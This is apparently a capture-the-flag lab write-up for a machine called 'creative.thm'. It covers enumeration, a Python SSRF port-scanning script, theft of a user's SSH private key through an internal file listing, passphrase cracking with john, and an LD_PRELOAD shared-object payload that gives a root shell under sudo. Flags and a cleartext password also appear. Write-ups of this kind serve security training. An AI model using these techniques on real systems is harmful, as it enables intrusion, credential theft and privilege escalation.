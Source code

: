 ##### Prerequisites
1. `echo '10.10.188.198 creative.thm' | sudo tee -a /etc/hosts`

##### Ports
```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://creative.thm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

##### Directory Enumeration
--> found nothing intresting

##### Subdomain Enumeration
--> `gobuster vhost -u creative.thm -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 64 --append-domain`

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://creative.thm
[+] Method:          GET
[+] Threads:         64
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: beta.creative.thm Status: 200 [Size: 591]
```

--> *beta.creative.thm*

##### Enumerating *beta.creative.thm*

--> URL Testing Field to check if the domain or site is alive or not
--> prolly , SSRF is there. Let's Check.
--> simply , uploading `.php` files didn't worked as it was taking it as a text file and showing printing it's text
 
  --> `NOTE` : i can able to get the file from any webserver , 
		  : i tried to request back http://localhost/ with 1-65535 ports 
		  : because there might be an internal web service running.

`script.py`
```python
import requests
import bs4

url = 'http://beta.creative.thm/'

for i in range(1,65535):
	data = {
		'url' : f'http://localhost:{i}/'
		}

	resp = requests.post(url,data=data)

	if resp.text != '<p> Dead </p>':
		print(f"Port {i} responded:")
		print(resp.text)
```

_add threading to increase it's speed_

`script.py` with threads functionality added :
```python
import requests
from concurrent.futures import ThreadPoolExecutor

url = 'http://beta.creative.thm/'  

# Function to send the request and handle response
def check_port(i):
	
	data = {
	'url': f'http://localhost:{i}/'
	}
	
	try:
		resp = requests.post(url, data=data)
		# If the response text is not '<p> Dead </p>', print the response
		if resp.text != '<p> Dead </p>':
		print(f"Port {i} responded:")
		print(resp.text)
		
	except requests.RequestException as e:
# Handle potential request exceptions like timeouts or connection errors
		
		print(f"Error with port {i}: {e}")

# Increase the number of threads for concurrent requests
thread_count = 100 # Adjust thread number as needed
# Create a ThreadPoolExecutor to handle concurrent threads

with ThreadPoolExecutor(max_workers=thread_count) as executor:
	# Submit tasks to the executor
	executor.map(check_port, range(1, 65535))
```

---> found 1337 port , with /  directory access.
```
Port 1337 responded:
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>Directory listing for /</title>
</head>
<body>
<h1>Directory listing for /</h1>
<hr>
<ul>
<li><a href="bin/">bin@</a></li>
<li><a href="boot/">boot/</a></li>
<li><a href="dev/">dev/</a></li>
<li><a href="etc/">etc/</a></li>
<li><a href="home/">home/</a></li>
<li><a href="lib/">lib@</a></li>
<li><a href="lib32/">lib32@</a></li>
<li><a href="lib64/">lib64@</a></li>
<li><a href="libx32/">libx32@</a></li>
<li><a href="lost%2Bfound/">lost+found/</a></li>
<li><a href="media/">media/</a></li>
<li><a href="mnt/">mnt/</a></li>
<li><a href="opt/">opt/</a></li>
<li><a href="proc/">proc/</a></li>
<li><a href="root/">root/</a></li>
<li><a href="run/">run/</a></li>
<li><a href="sbin/">sbin@</a></li>
<li><a href="snap/">snap/</a></li>
<li><a href="srv/">srv/</a></li>
<li><a href="swap.img">swap.img</a></li>
<li><a href="sys/">sys/</a></li>
<li><a href="tmp/">tmp/</a></li>
<li><a href="usr/">usr/</a></li>
<li><a href="var/">var/</a></li>
</ul>
<hr>
</body>
</html>
```

---> now , accessed .ssh of the user through the `beta.creative.thm`

---> http://localhost:1337/home/saad/.ssh/id_rsa 
	--> passed this in URL tester input field and got id_rsa
	--> saved in id_rsa file 

##### Cracking id_rsa Passphrase

--> id_rsa was encrypted 

`ssh2john id_rsa > crack.txt`
`john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt `

---> *sweetness        (id_rsa)*

##### Shell as 'saad'

`ssh saad@IP -i id_rsa`

###### user.txt
***9a1ce90a7653d74ab98630b47b8b4a84***

##### Privileges Escalations

found saad password in .bash_history file
```
echo "saad:MyStrongestPasswordYet$4291" > creds.txt
```

--> `sudo -l`
```
sudo -l
Matching Defaults entries for saad on m4lware:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\ env_keep+=LD_PRELOAD

User saad may run the following commands on m4lware:
    (root) /usr/bin/ping
```

--> **Focus on** *env_keep+=LD+PRELOAD*
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

--> `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
--> `sudo LD_PRELOAD=/tmp/shell.so /usr/bin/ping`
	and boom!! i got reverse shell.

##### root.txt
***992bfd94b90da48634aed182aae7b99f***
